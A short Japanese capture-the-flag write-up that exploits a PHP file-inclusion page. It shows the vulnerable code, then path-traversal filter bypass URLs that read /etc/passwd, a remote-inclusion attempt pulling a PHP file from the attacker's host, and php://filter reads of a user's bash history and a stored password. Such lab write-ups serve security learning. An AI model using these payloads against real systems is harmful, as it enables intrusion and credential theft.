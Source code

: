 ```php
<?php 

function sanitize_input($param) {
    $param1 = str_replace("../","",$param);
    $param2 = str_replace("./","",$param1);
    return $param2;
}

$page = $_GET['page'];
if (isset($page) && preg_match("/^[a-z]/", $page)) {
    $page = sanitize_input($page);
    readfile($page);
} else {
    header('Location: /index.php?page=home.html');
}

?>
```

- `../` と `./` は削除される
- 先頭は小文字アルファベットである必要がある

つまり、...../// は ../ に変換される。

http://10.10.238.203/index.php?page=assets/.....///.....///.....///.....///etc/passwd

の形でアクセスできたが、

http://10.10.238.203/index.php?page=assets/.....///.....///.....///.....///var/log/apache2/access.log

はブランクが返されたのでログポイズニングはできなかった。

http://10.10.238.203/index.php?page=http://10.2.22.182:8000/pentest.php

とするとリモートのPHPをGETしているが、`<?php` と `>` の間が削除されてPHPとして実行できなくなっている。

.bash_hisotory を開けた。

http://10.10.238.203/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.bash_history

```
echo "Red rules"
cd
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt
cat passlist.txt
rm passlist.txt
sudo apt-get remove hashcat -y
```

http://10.10.238.203/index.php?page=php://filter/convert.base64-encode/resource=/home/blue/.reminder

```
sup3r_p@s$w0rd!
```

